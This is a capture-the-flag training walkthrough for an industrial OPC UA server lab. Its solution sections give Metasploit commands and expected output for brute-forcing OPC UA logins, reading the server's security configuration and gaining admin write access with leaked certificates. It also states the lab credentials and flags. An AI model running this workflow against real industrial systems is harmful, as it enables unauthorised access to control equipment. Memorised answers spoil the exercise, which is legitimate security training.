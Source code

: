 # OPC UA

In this example we try to attack OPA UA.
For this install opcua-client.

```sh
pip3 install opcua-client
```

Remove configuration file for the OpcUaClient if there is any:
```sh
rm -rf .config/FreeOpcUa/OpcUaClient.conf
```

## Brute forcing user password
One way to log in to the OPC UA Server from the OPC UA Client is to use a username and a password. The objective of this part of the training is to reveal a valid username with the corresponding password. To do this, try to crack a user's authentication password using a brute force attack. Use the Metasploit module for OPC UA:   
https://github.com/COMSYS/msf-opcua/tree/master

To set up of the scanner module, follow the *Instructions* in the README.md of the link. It's necessary to install the opcua-module via pip: `pip3 install opcua`. Metasploit is installed in Kali by default. Add the `modules` directory found in this repository to the `modules` directory of Metasploit. This is located under the path `~/.msf4/modules`.   

Then use *opcua_hello* to verify that an OPC UA Server is running on an open port by following step 2 of the *Typical Workflow* described.   
If this is successful, follow step 4 and use *opcua_login* to brute force credentials for OPC UA Server instances. As input credential the input file, *credentials.txt* located in this folder should be used.   
(hints: IP 10.0.0.1, PORT 4840, FILE CybICS/training/opcua/credentials.txt)

In the case of a successful brute force attack, you should see the username and password labeled *success* as output. This procedure can also be traced in Wireshark and the usernames and passwords used in the attack can be read out in plaintext. 


### Get the user flag
The flag has the format "CybICS(flag)".

**Hint**: The flag is readable on the OPC UA system of the user, which you need to brute force
<details>
  <summary>Solution</summary>

  Check if connection to OPC UA works with:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_hello
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_hello) > run
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [+] 10.0.0.1:4840 - Success
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

  Use `opcua_login` to bruteforce login:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_login
  msf6 auxiliary(scanner/opcua/opcua_login) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_login) > set port 4840
  msf6 auxiliary(scanner/opcua/opcua_login) > set userpass file:<CybICS_root_Folder>/CybICS/training/opcua/credentials.txt
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [*] 10.0.0.1:4840 - Valid OPC UA response, starting analysis
  ...
  [+] 10.0.0.1:4840 - [101/132] - user1:test - Success
  ...
  ```

  Username: user1
  Passwort: test
  
  :anger: Flag: CybICS(OPC-UA)
  ![Flag opcua](doc/opcua_user.png)
</details>

## Getting an overview of the security configuration
Use the metasploit module `auxiliary/scanner/opcua/opcua_server_config` for this investigation

<details>
  <summary>Solution</summary>
  
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_server_config
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set username user1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set password test
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set authentication Username
  msf6 auxiliary(scanner/opcua/opcua_server_config) > run
  ```
</details>

## Getting admin access
Previously, you had read-only access to the variables, which meant you could view but not modify them.
The next step is to obtain admin access to the OPC UA device.
This will allow you to change the variables and acquire the admin flag.
From previous investigation, you found certificates used for the OPC-UA communication under `CybICS/software/opcua/certificates/trusted`.
Use the leaked certificates to authenticated to the OPC-UA system.


<details>
  <summary>Solution</summary>
  Use opcua-client and configure on `Connect option` the usage of the certificate.
  ```
  opcua-client
  ```

  Now you can change the variable `Set > 0 to obtain flag!` to a value bigger than zero and access the variable for the admin flag `adminFLAG`
  
  :anger: Flag: CybICS(OPC-UA-$ADMIN)
  ![Flag opcua](doc/opcua_admin.png)
</details>